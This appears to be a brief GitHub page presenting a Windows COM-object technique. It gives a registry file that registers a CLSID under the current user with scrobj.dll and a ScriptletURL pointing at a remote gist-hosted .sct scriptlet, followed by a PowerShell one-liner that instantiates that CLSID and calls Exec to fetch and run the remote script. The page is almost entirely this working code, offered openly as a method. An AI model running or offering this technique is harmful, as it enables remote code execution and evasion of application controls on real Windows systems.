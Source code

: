 
Synopsis: This method grants you the right to access and execute COM object codes via Activator.System .NET to connection with Scriptlet through a CLSID

![131231](https://user-images.githubusercontent.com/25440152/48066324-f0db7d00-e1d5-11e8-8bb6-efa03b4c4a7c.PNG)

![312313123123131](https://user-images.githubusercontent.com/25440152/48066255-c25da200-e1d5-11e8-9ad5-6129775e5646.PNG)

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}]
@="Bandit"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\InprocServer32]
@="C:\\WINDOWS\\system32\\scrobj.dll"
"ThreadingModel"="Apartment"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\ProgID]
@="Bandit"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\ScriptletURL]
@="https://gist.githubusercontent.com/homjxi0e/3e4488789a6b9222e445a68d29962518/raw/a167f0f680b446be17fa6a898b865b0056dfb072/COMobj.sct"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\VersionIndependentProgID]
@="Bandit"

```
```
$1=[Activator]::CreateInstance([type]::GetTypeFromCLSID("{00020000-0000-0000-C000-000000000046}"));
$1.Exec();
```


### Author Matt harr0ey 

* [Matt harr0ey](https://twitter.com/harr0ey)
